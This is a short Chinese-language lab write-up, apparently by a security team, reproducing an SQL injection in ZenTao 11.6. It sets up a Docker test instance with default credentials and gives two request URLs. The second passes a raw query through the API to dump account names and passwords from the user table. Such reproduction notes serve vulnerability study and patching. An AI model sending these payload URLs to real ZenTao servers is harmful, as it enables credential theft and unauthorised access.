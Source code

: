# 禅道 11.6 版本 SQL注入漏洞

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** SQL注入漏洞

## 0x01 环境搭建

```bash
# 拉取镜像
docker pull idoop/zentao:11.6

# 运行容器
docker run --name zentao -p 80:80 -v /www/zentaopms:/www/zentaopms -v /www/mysqldata:/var/lib/mysql -e MYSQL_ROOT_PASSWORD=123456 -d easysoft/zentao:11.6
```

打开浏览器，输入网址 `http://容器宿主机IP:端口` ，即可访问。

初始账号密码：admin/123456

![Untitled](image/Untitled.png)

## 0x02 漏洞复现

```bash
http://192.168.81.173/zentao/api-getModel-user-getRealNameAndEmails-users=admin#/
```

![Untitled](image/Untitled%201.png)

```bash
http://192.168.81.173/zentao/api-getModel-api-sql-sql=select+account,password+from+zt_user#/
```

![Untitled](image/Untitled%202.png)